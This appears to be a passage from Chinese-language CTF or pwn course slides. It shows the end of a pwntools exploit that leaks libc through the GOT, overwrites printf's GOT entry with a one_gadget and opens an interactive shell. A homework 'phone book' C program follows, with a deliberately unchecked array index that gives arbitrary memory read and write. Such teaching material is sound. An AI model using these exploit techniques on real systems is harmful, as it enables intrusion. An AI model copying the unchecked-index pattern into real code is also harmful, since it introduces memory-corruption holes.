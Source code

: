```python
    menu(1)
    io.sendline(str(addr))
    io.recvline()
    io.sendline(str(value))
    return

puts_got=read(elf.got['puts'])
libc_base=puts_got-libc.symbols['puts']
magic=0x45216
write(elf.got['printf'],libc_base+magic)

menu(0)
io.sendline(str(elf.got['puts']))
io.interactive()
```

---

# 回家作業

phone book

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>
#include <stdlib.h>
#include <signal.h>
#include <time.h>
#define TIMEOUT 30

void handler(int signum){
    puts("Timeout");
    _exit(1);
}
void init_proc(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    signal(SIGALRM,handler);
    alarm(TIMEOUT);
}

int main(int argc, char *argv[])
{
    init_proc();
    int action;
    long long idx;
    long long book[100];
    long long *trick=book;
    while(1){
        puts("0:read, 1:write :");
        scanf("%d",&action);
        puts("index :");
        scanf("%lld",&idx);
        if (!action) {
            printf("%lld\n",book[idx]);
        } else {
            puts("value :");
            scanf("%lld",&book[idx]);
        }
    }
```